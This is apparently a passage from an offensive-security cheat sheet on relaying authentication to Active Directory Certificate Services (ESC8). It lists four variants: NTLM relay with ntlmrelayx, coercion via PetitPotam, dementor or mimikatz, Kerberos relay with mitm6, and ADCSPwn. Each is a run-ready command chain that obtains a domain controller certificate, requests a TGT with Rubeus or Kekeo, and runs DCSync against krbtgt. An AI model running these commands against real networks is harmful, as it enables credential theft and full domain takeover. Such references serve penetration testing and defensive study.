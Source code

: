 * **Version 1**: NTLM Relay + Rubeus + PetitPotam
  ```powershell
  impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
  impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
  # For a member server or workstation, the template would be "Computer".
  # Other templates: workstation, DomainController, Machine, KerberosAuthentication

  # Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam 
  # You can also use any other way to coerce the authentication like PrintSpooler via MS-RPRN
  git clone https://github.com/topotam/PetitPotam
  python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
  python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
  python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
  python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

  # Use the certificate with rubeus to request a TGT
  Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
  Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

  # Now you can use the TGT to perform a DCSync
  mimikatz> lsadump::dcsync /user:krbtgt
  ```

* **Version 2**: NTLM Relay + Mimikatz + Kekeo
  ```powershell
  impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

  # Mimikatz
  mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

  # Kekeo
  kekeo> base64 /input:on
  kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

  # Mimikatz
  mimikatz> lsadump::dcsync /user:krbtgt
  ```

* **Version 3**: Kerberos Relay
  ```ps1
  # Setup the relay
  sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine

  # Run mitm6
  sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
  ```

* **Version 4**: ADCSPwn - Require `WebClient` service running on the domain controller. By default this service is not installed.
  ```powershell
  https://github.com/bats3c/ADCSPwn
  adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
  adcspwn.exe --adcs cs.pwnlab.local
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local

  # ADCSPwn arguments
  adcs            -       This is the address of the AD CS server which authentication will be relayed to.
  secure          -       Use HTTPS with the certificate service.
  port            -       The port ADCSPwn will listen on.
  ```